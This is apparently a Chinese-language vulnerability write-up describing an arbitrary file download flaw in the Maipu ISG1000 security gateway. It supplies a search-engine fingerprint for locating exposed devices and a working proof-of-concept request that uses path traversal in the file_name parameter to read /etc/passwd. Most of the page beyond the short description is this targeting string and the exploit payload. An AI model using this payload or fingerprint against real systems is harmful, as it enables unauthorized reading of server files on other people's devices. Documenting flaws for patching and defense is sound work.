 # 迈普 ISG1000安全网关 任意文件下载漏洞

# 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## 网络测绘

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](/images/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](/images/202202110950317.png)

